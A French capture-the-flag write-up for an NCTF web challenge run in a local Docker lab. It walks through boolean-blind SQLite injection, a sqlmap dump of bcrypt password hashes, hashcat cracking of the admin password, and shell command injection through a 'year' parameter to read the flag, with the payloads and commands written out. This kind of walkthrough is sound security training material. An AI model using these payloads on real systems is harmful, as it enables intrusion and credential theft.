





> Competition : **NCTF** — Challenge web (lab Docker local, port 5563)

## Informations

- **Catégorie :** Web (SQLi → crack → command injection)
- **Difficulté :** Moyenne
- **Auteur du write-up :** 3ch0
- **Stack :** Apache 2.4 / PHP 8.1 / SQLite (PDO)
- **Flag :** `NCTF{sql1_dump_cr4ck_th3n_c0mm4nd_1nj3ct10n}`

---

## 1. Reconnaissance

```bash
curl -s http://cyber.cafe:5563/ | head -n 40
```

```text
NCTF Cyber Café
<form action="check_seat.php" method="get">
  <input name="seat" placeholder="A2">
liens : login.php · register.php
```

La page expose un formulaire **`check_seat.php?seat=`** (GET) et une zone d'authentification. Le paramètre `seat` part dans une requête SQL → candidat n°1.

---

## 2. Injection SQLite dans `check_seat.php`

Test de cassure avec une apostrophe :

```bash
curl -s "http://cyber.cafe:5563/check_seat.php?seat=A2'"
```

```text
Erreur SQLite: SQLSTATE[HY000]: General error: 1 unrecognized token: "'''"
```

Erreur SQL renvoyée → **injection confirmée**. Nombre de colonnes via `ORDER BY` :

```text
... ORDER BY 2 -- -   → OK
... ORDER BY 3 -- -   → 1st ORDER BY term out of range - should be between 1 and 2
```

→ **2 colonnes**. Mais le `UNION SELECT` ne sert à rien : la page **n'imprime jamais les colonnes**, elle réfléchit seulement l'input et dit *occupée* / *disponible*.

```text
seat=A2' UNION SELECT name, sql FROM sqlite_master -- -   → "Cette place est occupée"
```

C'est donc un **oracle booléen**, pas une injection à sortie directe :
- requête renvoie ≥1 ligne → « occupée » (VRAI)
- requête renvoie 0 ligne → « disponible » (FAUX)

Validation de l'oracle :

```bash
curl -s "http://cyber.cafe:5563/check_seat.php?seat=ZZ99' OR 1=1-- -"   # occupée (VRAI)
curl -s "http://cyber.cafe:5563/check_seat.php?seat=ZZ99' OR 1=2-- -"   # disponible (FAUX)
```

---

## 3. Dump en boolean-based (sqlmap)

L'injection étant *blind boolean-based*, on cadre sqlmap sur la bonne technique et le bon marqueur de vérité (`occup` pour « occupée ») :

```bash
sqlmap -u "http://cyber.cafe:5563/check_seat.php?seat=A2" \
  --dbms=sqlite --technique=B --string="occup" \
  --level=3 --risk=2 --batch --dump-all
```

```text
Table: users
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
| 1  | admin    | $2y$10$ujqm1KOx/s5dL5hCG973Keln44mLApDtDz6eZ.4jUyBdTIN3Mh6BC |
| 2  | isis     | $2y$10$PAX0Ph1gxb3azvlWg8.yJ.99849FGWPpTBlkzugnE0TDTF6rujQKm |
| 3  | test     | $2y$10$8L8cUmjVh2SfZ3xSyecZBuipIXo7R/P8uWGIlzHL8kioq.qTMRUzS |
+----+----------+--------------------------------------------------------------+
```

> Note : le flag **n'est pas** en base. L'objectif du dump, c'est de récupérer des **identifiants** pour atteindre la zone admin.





---

## 4. Crack du hash admin

Hashes **bcrypt** (`$2y$`) → hashcat mode `3200` :

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```text
$2y$10$ujqm1KOx/...TIN3Mh6BC:administracion
```

→ `admin:administracion`. (bcrypt est lent par design : un seul compte faible suffit, inutile de casser les trois.)



---

## 5. Panneau admin → injection de commande

Connecté sur `login.php`, le panneau admin propose une « prédiction » qui prend un paramètre `year` :

```text
Estimation pour 2026 : 28 cyber cafés
```



L'appli passe très probablement `year` à un appel système. Test avec un séparateur shell :

```text
year=2026; id
```

```text
Estimation pour 2026 : 28 cyber cafés
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



**Injection de commande confirmée** (`www-data`). On localise puis on lit le flag :

```text
year=2026; ls -la /        → -rw-r--r-- root root monflag.txt
year=2026; cat /monflag.txt
```

```text
NCTF{sql1_dump_cr4ck_th3n_c0mm4nd_1nj3ct10n}
```


**Flag :** `NCTF{sql1_dump_cr4ck_th3n_c0mm4nd_1nj3ct10n}`

---

## Récapitulatif de la chaîne

1. `check_seat.php?seat=` → **injection SQLite** (détection error-based, exploitation *boolean-based blind* : oracle occupée/disponible).
2. **sqlmap** `--technique=B --string=occup` → dump de la table `users` (hashes bcrypt).
3. **hashcat -m 3200** → `admin:administracion`.
4. Connexion admin → panneau « prédiction ».
5. Paramètre `year` concaténé dans une commande → **injection de commande** → `cat /monflag.txt`.

---

***— 3ch0***
